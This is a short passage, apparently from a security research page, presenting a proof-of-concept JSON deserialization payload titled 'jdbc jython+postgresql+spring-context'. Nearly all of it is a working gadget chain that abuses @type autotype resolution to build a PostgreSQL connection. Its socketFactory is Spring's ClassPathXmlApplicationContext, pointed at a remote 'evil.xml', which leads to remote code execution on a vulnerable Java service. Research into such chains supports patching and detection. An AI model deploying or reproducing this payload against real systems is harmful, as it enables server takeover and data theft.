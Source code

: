![](images/2023-01-28-21-31-07.png)

## jdbc jython+postgresql+spring-context

poc:

```json
{
    "a":{
    "@type":"java.lang.Exception",
    "@type":"org.python.antlr.ParseException",
    "type":{}
    },
    "b":{
        "@type":"org.python.core.PyObject",
        "@type":"com.ziclix.python.sql.PyConnection",
        "connection":{
            "@type":"org.postgresql.jdbc.PgConnection",
            "hostSpecs":[
                {
                    "host":"127.0.0.1",
                    "port":2333
                }
            ],
            "user":"user",
            "database":"test",
            "info":{
                "socketFactory":"org.springframework.context.support.ClassPathXmlApplicationContext",
                "socketFactoryArg":"http://127.0.0.1:8090/evil.xml"
            },
            "url":""
        }
    }
}
```
